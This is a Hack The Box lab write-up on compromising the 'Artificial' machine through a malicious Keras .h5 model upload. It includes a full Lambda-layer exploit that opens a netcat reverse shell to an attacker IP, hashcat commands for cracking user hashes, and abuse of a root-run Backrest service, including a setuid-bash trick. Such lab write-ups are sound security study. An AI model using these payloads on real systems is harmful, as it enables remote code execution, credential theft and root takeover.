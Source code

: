 ```yaml
---
title: Artificial - HTB
date: 2025-06-26 01:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [ Linux , File-Upload , Service-Abuse ]
toc: true
comments: true
image: ./assets/img/attachments/Artificial-1.png
imageNameKey: Artificial
---
```

Hey Everyone! Today I'm going to demonstrate how I pwned Artificial machine from hack the box, it's 7/1000 write-up. Lets goo!
## Port Enumeration
lets see what we have open for this ip:
```bash
sudo nmap -sS 10.10.11.74 -F -Pn -A
```
I started with -F to speed the process, then will run -p-
```bash
Nmap scan report for 10.10.11.74
Host is up (0.43s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   390.30 ms 10.10.16.1
2   199.20 ms 10.10.11.74
                                                                 
```

I will check the website running on port 80 until full port enumeration is done.
After taking a close look on this web app, and creating an account, there was a requirements file at the upload section
![](/assets/img/attachments/Artificial.png)
```
Please ensure these requirements are installed when building your model, or use our Dockerfile to build the needed environment with ease.
```

So we need an .h5 file with this requirements, we have two options:
	1- either to use this tensorflow version
	2- or to use the docker file downloaded from this web page
	
![](/assets/img/attachments/Artificial-2.png)
building this docker
```bash
sudo docker build -t my-tf-container .
```
![](/assets/img/attachments/Artificial-3.png)

to be able to mount codes from the directory of my host:
```bash
sudo docker run -it -v $(pwd):/code my-tf-container
```

We will use this code to trigger a reverse shell. Why does this work?  
The web application allows users to upload `.h5` files without any validation. These files are based on the HDF5 format and can contain embedded Python objects. Keras uses `pickle` internally to deserialize custom objects when loading these model files. And by  including a malicious pickled object in the `.h5` file, it will lead to Remote Code Execution (RCE) during deserialization.
## Initial Access
I tried several codes with the help of ChatGPT but didn't trigger the reverse shell, but this one did 
[exploit code from github](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py)

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.66 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
![](/assets/img/attachments/Artificial-4.png)
Now after uploading this file and triggering it by `view predicitons` (Which the run_model endpoint)
RCE was triggered and we got the reverse shell!
![](/assets/img/attachments/Artificial-5.png)
## Lateral Movement
with more digging in those directories
![](/assets/img/attachments/Artificial-6.png)

I downloaded this file to my machine by 
```bash
python3 -m http.server (victim)
curl http://10.10.11.74:8000/users.db --output users.db (my machine)
```
Its sqlite file
![](/assets/img/attachments/Artificial-7.png)

Since there are multiple users, and to avoid wasting time, we can focus on the initial access we already have. In the `/home` directory, we find two user folders: `app` (which is our current user) and `geal`
lets try to crack geal pass
```bash
hashcat -m 0 c99175974b6e192936d97224638a34f8 /usr/share/wordlists/rockyou.txt
```
![](/assets/img/attachments/Artificial-8.png)
And got the password!
And i logged in as gael using ssh!
## Service Abuse
Then I ran linpeas, I didn't get any direct exploits, but active ports catches my eyes
![](/assets/img/attachments/Artificial-9.png)

port 5000 runs artificial.htb locally but what's on 9898?
using this command for port forwarding
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

![](/assets/img/attachments/Artificial-10.png)
There's this service running, but it has no direct public exploits. So the question here is: **what is this service?**

Running `backrest -h` reveals that it's a binary named `backrest` that exposes several command-line flags. This helped confirm that the service is **Backrest**, a web-based UI wrapper for the `restic` backup tool. It's intended to manage and automate backups in a self-hosted environment. It supports multiple repository backends — such as local storage, SFTP, S3, B2, and others supported by `restic` — and allows users to configure and schedule backups directly from the web interface.
since its a backup tool, i went back to linpeas output
![](/assets/img/attachments/Artificial-11.png)
There's backrest backup file!
I couldn't extract its content although i have read permission on it, because tar is recreating a folder to insert the uncompressed content in it and i don't have permissions to mkdir in this directory!
I transferred the file to my machine using http server, or u can copy it to geal user folder and uncompressed it there
In config.json:
![](/assets/img/attachments/Artificial-12.png)
we have bcrypt hash password which base 64 encoded

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```
To find hashcat mode
```bash
hashcat -h | grep bcrypt
```
and got the password using hashcat
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -a 0
```
logging in with this user
I created Restic repo
![](/assets/img/attachments/Artificial-13.png)

Then from running help command in Run Command option it was clear that i can backup any file (this service runs with root permission)
The easy way is to get the root flag and we can do the same to get root priv ssh key
![](/assets/img/attachments/Artificial-14.png)
![](/assets/img/attachments/Artificial-15.png)
We need the id 60... to be used with dump command
![](/assets/img/attachments/Artificial-16.png)
And to get ssh key
![](/assets/img/attachments/Artificial-17.png)
![](/assets/img/attachments/Artificial-18.png)
And ROOTED!!
## Extra Tip
I saw another neat root method where someone abused the `--restic-cmd` flag and used an environment variable like `RESTIC_PASSWORD_COMMAND='/bin/chmod +s /bin/bash'` to make bash setuid and get root — definitely a clever trick.
![](/assets/img/attachments/Artificial-19.png)
